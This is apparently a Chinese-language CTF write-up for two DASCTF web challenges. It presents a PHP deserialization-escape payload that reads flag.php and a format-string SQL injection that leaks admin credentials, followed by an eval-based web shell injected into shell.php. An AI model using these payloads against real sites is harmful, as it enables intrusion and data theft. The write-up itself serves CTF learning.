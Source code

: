 ```yaml
---
layout: post
title: DASCTF April Web Writeup
data: 2020-04-25
categories: Writeups
tags: 
 - CTF
 - Writeup
description: 
excerpt_separator: ""
---
```


# Ezunserialize

## 题目描述

直接给了源码：

{% highlight php linenos %}
<?php
show_source("index.php");
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}

class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
        return 'nice';
    }
}

$a = new A($_GET['a'],$_GET['b']);
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a))));
{% endhighlight%}

## 解题思路

思路很明确由B类到C类读取flag.php，不过看起来只能传入给A类的字符串，需要序列化逃逸。

read()函数会将`'\0\0\0'`替换为`"\0*\0"`，注意一下，前者由单引号围绕，不表示转义，即包含6个字符，而后者由双引号包围，转义为空白符，即包含三个字符。

先构造理想的序列化字符串：

```php
<?php
$c = new C();
$b = new B();

$c->c = "flag.php";
$b->b = $c;
echo serialize(new A("foo", $b));
?>
```

结果：

```php
O:1:"A":2:{s:8:"username";s:3:"foo";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}
```

需要吞掉24个字符，于是提交的序列化字符串为：

{% highlight linenos %}
O:1:"A":2:{s:8:"username";s:48:"\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0";s:8:"password";s:74:";";s:8:"password";O:1:"B":1:{s:1:"b";O:1:"C":1:{s:1:"c";s:8:"flag.php";}}}";}
{% endhighlight%}

Payload：

```
?a=%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0%5C0
&b=%3B%22%3Bs%3A8%3A%22password%22%3BO%3A1%3A%22B%22%3A1%3A%7Bs%3A1%3A%22b%22%3BO%3A1%3A%22C%22%3A1%3A%7Bs%3A1%3A%22c%22%3Bs%3A8%3A%22flag.php%22%3B%7D%7D%7D
```

## 备注

1. 这道题就是完全没有注意到单引号，一直在想属性的访问控制什么的。

# babytricks

## 题目描述

一个登录框，源码中有提示

```html
<!-- tips:select * from user where user='$user' and passwd='%s'-->
```

## 解题思路

很明显的格式化字符串，Payload：

```
POST：user=admin%1$c
passwd=39
```

有个跳转，输出了一个数组：

```
Array(
    [0] => 1
    [id] => 1
    [1] => admin
    [user] => admin
    [2] => GoODLUcKcTFer202OHAckFuN
    [passwd] => GoODLUcKcTFer202OHAckFuN
)
```

应该是账号密码了，然后说前台什么都没有了，那就去后台，扫一下目录，可以看到源码：

```php
Your sandbox: ./shells/LYmjizTyfRfRj1bz/ set your shell
<?php
error_reporting(0);
session_save_path('session');
session_start();
require_once './init.php';
if($_SESSION['login']!=1){
    die("<script>window.location.href='./index.php'</script>");
}
if($_GET['shell']){
    $shell= addslashes($_GET['shell']);
    $file = file_get_contents('./shell.php');
    $file = preg_replace("/\\\$shell = '.*';/s", "\$shell = '{$shell}';", $file);
    file_put_contents('./shell.php', $file);
}else{
    echo "set your shell"."<br>";
    chdir("/");
    highlight_file(dirname(__FILE__)."/admin.php");
}
?>
```

很简单：

```
?shell=;eval($_POST['cmd']);
```

然后发现执行系统命令的很多函数被禁用了，结合题目给了so文件，说明要LD_PRELOAD。

## 备注

1. LD_PRELOAD这里要深入一下了。